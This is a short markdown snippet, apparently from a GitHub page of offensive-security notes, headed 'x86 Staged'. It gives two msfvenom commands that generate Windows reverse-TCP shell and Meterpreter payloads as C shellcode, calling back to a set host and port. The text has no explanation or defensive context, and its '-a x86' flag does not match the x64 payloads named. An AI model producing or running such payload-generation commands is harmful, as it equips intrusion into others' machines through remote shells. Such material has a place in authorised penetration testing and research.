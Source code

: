 # x86 Staged

reverse tcp
```sh
msfvenom -a x86 --platform windows -p windows/x64/shell/reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
```

meterpreter
```sh
msfvenom -a x86 --platform windows -p windows/x64/meterpreter/reverse_tcp  LHOST=192.168.52.128 LPORT=9999 -f c
```
